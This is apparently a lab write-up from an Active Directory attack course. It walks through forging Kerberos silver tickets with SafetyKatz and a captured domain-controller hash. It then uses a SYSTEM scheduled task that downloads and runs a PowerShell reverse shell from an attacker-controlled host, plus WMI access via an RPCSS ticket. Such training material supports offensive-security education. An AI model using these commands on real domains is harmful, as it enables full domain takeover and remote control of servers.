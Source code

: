 # Hands-on 15: Silver Tickets

- [Hands-on 15: Silver Tickets](#hands-on-15-silver-tickets)
  - [Task](#task)
  - [HOST Service](#host-service)
  - [WMI Service](#wmi-service)

---

## Task

During the additional lab time, try to get command execution on the domain controller us-dc by creating silver ticket for: 
– HOST service 
– WMI

<br/>

---

## HOST Service

Recall the result in [Hands-on 14](l14-GoldenTicket.md)

```
RID  : 000003e8 (1000)
User : US-DC$
LM   :
NTLM : f4492105cb24a843356945e45402073e
```

<br/>

Use `SafetyKatz.exe` to create the silver ticket for `HOST` service:

```
C:\AD\Tools\SafetyKatz.exe "kerberos::golden
/User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /target:us-dc.us.techcorp.local /service:HOST /rc4:f4492105cb24a843356945e45402073e /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

![picture 50](images/9f7c634ca397d6452e76f3114d700277e4a296e4d990e45bee02ee519361e8d1.png)  

<br/>

On the local machine, make a copy of `Invoke-PowerShellTcp.ps1` as `Invoke-PowerShellTcpEx.ps1`, with the following command added in the end:

```
reverse -reverse -IPAddress 192.168.100.64 -Port 443
```

![picture 51](images/830eb9c76514690f0395800132662155aa02bef0f0d8d1fcef578e03e98699ee.png)  

<br/>

Launch a netcat listner using powercat.ps1:

```
C:\AD\Tools\InviShell\RunWithPathAsAdmin.bat

. C:\AD\Tools\powercat.ps1

powercat -l -v -p 443 -t 1000
```

<br/>

Use `python -m SimpleHTTPServer 80` to serve the tool and script.

<br/>

Using the session with the Silver Ticket, create a scheduled task:

```
schtasks /create /S us-dc.us.techcorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck64" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.64/Invoke-PowerShellTcpEx.ps1''')'"
```

<br/>

Trigger the scheduled task on `US-DC`:

```
schtasks /Run /S us-dc.us.techcorp.local /TN "STCheck64"
```

![picture 52](images/d0917122685e65a5ea2c82f4f378b201487448fbe21e6dbdca317922fa9b3faf.png)  

<br/>

---

## WMI Service

According to https://adsecurity.org/?p=2011, to obtain WMI service, we need 2 silver tickets:

- HOST
- RPCSS

<br/>

Request one more silver ticket - RPCSS:

```
C:\AD\Tools\SafetyKatz.exe "kerberos::golden
/User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /target:us-dc.us.techcorp.local /service:RPCSS /rc4:f4492105cb24a843356945e45402073e /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

![picture 53](images/840b137f0c2466a4f260a8cd902386bf8e8cbeca9729aacb14a34994ea182f38.png)  

<br/>

Try to get remote process of `US-DC`:

```
Get-WmiObject -Query "select * from win32_service where name='WinRM'" -ComputerName us-dc.us.techcorp.local |
  Format-List -Property PSComputerName, Name, ExitCode, Name, ProcessID, StartMode, State, Status
```

![picture 54](images/947f67d757025756b594c0317e792506d1996fbbcc1c75f624a252325e7541b8.png)  

<br/>
